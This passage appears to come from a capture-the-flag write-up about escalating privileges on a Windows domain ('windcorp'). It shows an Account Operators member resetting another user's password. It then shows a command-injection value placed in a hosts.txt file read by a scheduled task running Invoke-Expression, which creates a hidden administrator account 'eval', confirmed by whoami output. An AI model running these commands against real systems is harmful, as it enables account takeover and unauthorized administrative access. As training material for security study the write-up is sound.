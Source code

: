 > The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.

In other words, we have enough rights to change `brittanycr` password to something we control (be mindful of password policy):

```
*Evil-WinRM* PS C:\Users\buse\Documents> net user brittanycr secretpass1234! /domain
The command completed successfully.
```

## Backdooring the hosts file

We can spawn a new WinRM session as `brittanycr`

The following command should escape from the context of `Test-Connection` (or make it fail) and have `Invoke-Expression` run the two subsequent commands:

1. `net user eval Password1234!` - create a new user with given password
2. `net localgroup Administrators eval /add` - add user `eval` to Administrators

```
# hosts.txt:
;net user eval Password1234! /add;net localgroup Administrators eval /add
```

We wait a couple of minutes for the scheduled task to be run again and try to spawn a new WinRM session as `eval`.

```
*Evil-WinRM* PS C:\Users\Eval\Desktop> whoami /user /groups

USER INFORMATION
----------------

User Name     SID
============= ============================================
windcorp\eval S-1-5-21-555431066-3599073733-176599750-7102


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
==> BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
